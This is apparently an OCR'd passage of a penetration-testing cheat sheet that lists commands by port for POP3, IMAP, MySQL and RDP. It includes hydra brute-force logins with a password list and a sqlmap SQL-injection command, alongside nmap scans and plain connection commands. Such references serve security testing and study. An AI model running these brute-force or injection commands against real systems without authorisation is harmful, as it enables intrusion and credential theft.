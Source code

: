 scan for open POP3 port on the target

```
nmap -p 110 <target> 
```

brute force POP3 login

```
hydra -l <username> -P passwords.txt pop3://<target> 
```


## 143 (IMAP)

connect to IMAP service on the target

```
telnet <target> 143 
```

scan for open IMAP port on the target

```
nmap -p 143 <target> - 
```

brute force IMAP login

```
hydra -l <username> -P passwords.txt imap://<target> - 
```

## 3306 (MySQL)


connect to MySQL service on the target

```
mysql -h <target> -u <username> -p 
```

scan for open MySQL port on the target

```
nmap -p 3306 <target> 
```

perform SQL injection on MySQL database

```
sqlmap -u "http://<target>/index.php?id=1" --dbs 
```


## 3389 (RDP)


connect to RDP service on the target


```
rdesktop <target> 
```
